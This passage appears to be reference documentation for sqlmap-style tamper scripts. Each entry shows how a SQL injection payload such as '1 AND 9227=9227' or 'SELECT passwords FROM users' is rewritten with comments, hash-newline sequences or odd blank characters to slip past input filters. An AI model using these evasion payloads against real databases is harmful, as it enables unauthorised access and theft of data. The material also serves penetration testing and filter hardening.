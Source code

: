 Replaces (MySQL) instances of space character (‘ ‘) with a pound character (‘#’) followed by a random string and a new line (‘\n’). For example:

-- First payload  
1 AND 9227=9227  
  
-- After using the tamper  
1%23upgPydUzKpMX%0AAND%23RcDKhIr%0A9227=9227

- space2morecomment

Replaces (MySQL) instances of space character (‘ ‘) with comments `/**_**/`

-- First payload  
SELECT passwords FROM users  
  
-- After using the tamper  
SELECT/**_**/passwords/**_**/FROM/**_**/users

- space2morehash

Replaces (MySQL) instances of space character (‘ ‘) with a pound character (‘#’) followed by a random string and a new line (‘\n’). For example:

-- First payload  
1 AND 9227=9227  
  
-- After using the tamper  
1%23RcDKhIr%0AAND%23upgPydUzKpMX%0A%23lgbaxYjWJ%0A9227=9227

- space2mssqlblank

Replaces (MsSQL) instances of space character (‘ ‘) with a random blank character from a valid set of alternate characters. For example:

-- First payload  
SELECT id FROM users  
  
-- After using the tamper  
SELECT%0Did%0DFROM%04users

- space2mssqlhash

Replaces space character (‘ ‘) with a pound character (‘#’) followed by a new line (‘\n’). For example:

-- First payload  
1 AND 9227=9227  
  
-- After using the tamper  
1%23%0AAND%23%0A9227=9227

- space2mysqlblank

Replaces (MySQL) instances of space character (‘ ‘) with a random blank character from a valid set of alternate characters. For example:

-- First payload  
SELECT id FROM users  
  
-- After using the tamper  
SELECT%A0id%0CFROM%0Dusers
